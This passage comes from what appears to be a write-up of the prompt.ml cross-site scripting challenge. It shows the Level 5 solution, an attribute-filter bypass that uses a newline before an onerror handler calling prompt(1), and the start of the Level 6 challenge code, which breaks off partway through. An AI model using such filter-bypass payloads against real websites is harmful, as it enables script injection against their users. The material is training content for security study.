 

## Solutions:

```
1.用换行绕过onXXX=
" type='image' src=''  onerror
="prompt(1)

```

## Img:

1.

```
" type='image' src=''  onerror
="prompt(1)
```

![5_1](/img/xss/prompt_ml/level5_001.png)

# Level 6

## Code:

```
function escape(input) {
    // let's do a post redirection
    try {
        // pass in formURL#formDataJSON
        // e.g. http://httpbin.org/post#{"name":"Matt"}
        var segments = input.split('#');
        var formURL = segments[0];
        var formData = JSON.parse(segments[1]);

        var form = document.createElement('form');
        form.action = formURL;
        form.method = 'post';

        for (var i in formData) {
            var input = form.appendChild(document.createElement('input'));
            input.name = i;
            input.setAttribute('value', formData[i]);
        }
```